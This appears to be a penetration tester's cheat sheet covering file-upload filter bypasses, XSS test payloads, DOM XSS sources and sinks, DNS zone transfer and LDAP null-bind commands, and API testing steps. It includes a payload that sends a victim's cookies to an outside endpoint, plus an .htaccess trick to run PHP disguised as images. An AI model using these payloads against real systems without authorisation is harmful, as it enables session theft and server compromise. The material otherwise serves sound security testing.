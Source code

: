 **FILE UPLOAD**  
- Double extension [.php.jpg]
- Type MIME modification : change Content-Type : "application/x-php" to "image/gif", "image/png", "image/jpeg"
- Null byte  
.php%00.jpg
.php\x00.jpg
- Magic bytes file signature(ex : add GIF89a in the beginning of the file for .gif)
- Upload a .htaccess file to interpret jpg as php files. .htaccess content : `AddType application/x-httpd-php .jpg`
- zip + lien symbolique (zip --symlinks test.zip lien, avec ln -s /etc/passwd lien) 


### CLIENT SIDE:
**XSS**  
- Analyze how user inputs are sanitized by the application and try to escape the sanitizing 
- Small #XSS list for manual testing (main cases, high success rate) from @brutelogic :   
`"><img src onerror=alert(1)>` (bypass 'script' tag)    
`<body onload="alert()">` (bypass 'script' tag)  
`"autofocus onfocus=alert(1)//`  
`</script><script>alert(1)</script>`  
`'-alert(1)-'`  
`\'-alert(1)//` (JSON backslash escape)  
`javascript:alert(1)`  
`<script>document.location.replace("http://endpoint?cookie=".concat(document.cookie))</script>`  (Get cookie from another user)    
Try it on : URL query, fragment & path and all input fields. 
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection  
- Check for DOM XSS by looking for Javascript sources & sinks in the code : 
 	Sources such as : `searchParams.get('param')`, `document.URL`, `location`, `document.cookie`, etc.    
	Document-related sinks such as : `document.write()`, `element.innerHTML`, etc.  
	Location-based sinks such as : `window.location`, `document.location`, etc.  
	Execution-based sinks such as : `eval()`, `toString()`, etc.  


## 7 - Encryption protocols & ciphers
- testssl.sh : weak ciphersuites/protocols ?


## NETWORK =
- DNS zone transfert may be possible if there is a misconfig : [dig @SERVEURDNS -p *port* AXFR *domaine*]
- LDAP null bind [ldapsearch -x -h *ldap.server* -p *port* -s base -b '' "(objectClass=*)" "*" +]


# Exploitation
- Reverse shell : Use Metasploit web_delivery  
  TODO : Metasploit web_delivery explanation

# API METHODOLOGY  
- Find endpoints (with SecLists/tree/master/Discovery/Web-Content/api) & potential documentation/swagger on the associated API  
- Sensitive information disclosure : find endpoints that discloses sensitive data (for example /api/users/all to list all users of an API)  
- Verbose messages : Send unexpected characters such as '<\>/"{} in order to disclose stack trace    
- IDOR : change IDs in order to access "private" data related to the ID  
- TODO : Mass Assignement  
    
# Sources :  
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/  
